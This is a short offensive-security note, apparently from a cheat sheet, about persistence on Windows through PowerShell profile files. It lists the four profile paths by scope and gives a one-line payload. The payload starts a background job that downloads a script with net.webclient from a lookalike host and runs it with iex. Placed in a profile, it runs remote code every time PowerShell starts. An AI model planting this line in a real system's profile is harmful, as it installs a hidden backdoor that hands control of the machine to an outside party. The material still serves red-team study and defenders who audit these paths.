 #persistence 
- All Users, All Hosts - `$PSHOME\Profile.ps1`
- All Users, Current Host - `$PSHOME\Microsoft.PowerShell_profile.ps1`
- Current User, All Hosts - `$HOME\Documents\WindowsPowerShell\Profile.ps1`
- Current user, Current Host - `$HOME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1`
```powershell
$_ = Start-Job -ScriptBlock { iex (new-object net.webclient).downloadstring("http://bleepincomputer.com/a") }
```